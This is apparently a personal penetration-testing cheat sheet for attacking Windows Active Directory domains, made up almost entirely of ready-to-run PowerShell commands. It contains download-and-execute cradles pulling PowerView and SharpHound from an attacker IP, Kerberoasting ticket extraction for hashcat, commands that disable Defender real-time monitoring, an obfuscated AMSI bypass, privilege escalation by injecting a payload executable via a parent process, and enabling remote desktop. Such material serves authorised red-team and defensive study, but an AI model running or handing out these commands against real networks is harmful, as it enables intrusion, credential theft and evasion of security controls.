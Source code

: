 ```yaml
---
description: >-
  This is just a living document of things I have needed for domain
  enumeration/exploitation
---
```


# Domain Exploitation

## POWERSPLOIT ENUMERATION

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev). For an already incredible cheat sheet, [check out HarmJ0y's](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')`

### Domain Users

```text
Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol | Export-CSV users.csv
```

### Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

## BLOODHOUND

### Ingestor Launch

```text
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing;
```

## EVADING AV

### Turning Off Defender's RTM

`PS C:\Windows\system32> Set-MpPreference -DisableRealtimeMonitoring $true`

### AMSI Bypass

```text
PS C:\Windows\system32> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

## SeDebugPrivilege

If you run `whoami /priv` and you see `SeDebugPrivilege` set to `Enabled`, you can assume you already have SYSTEM.  

One way of doing it, is using [decoder](https://twitter.com/decoder_it)'s `psgetsys.ps1` [script](https://github.com/decoder-it/psgetsystem) once you have a good idea on a PID to inject:  

`. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864,'C:\temp\burmat443.exe');`

You can also gain a MSF session and use the module `windows/manage/payload_inject` with a PID of your choice.

## REMOTE DESKTOP

### Enable RDP

```text
PS> Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
PS> Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
PS> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

